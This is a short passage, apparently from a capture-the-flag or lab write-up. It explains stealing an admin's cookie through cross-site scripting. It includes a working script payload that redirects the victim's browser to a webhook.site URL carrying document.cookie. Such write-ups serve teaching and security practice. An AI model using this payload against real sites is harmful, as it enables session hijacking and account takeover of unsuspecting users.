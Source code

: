 We can set up a webhook at webhook.site and then execute the following command:
```
<script>window.location.href = `https://webhook.site/99acbbcc-f95d-40f0-8678-2b6a4518b613/?param=${document.cookie}`</script>
```
and wait for the admin user to reload the page. (This might not be the best solution since the admin user will be redirected to the webhook.site website).
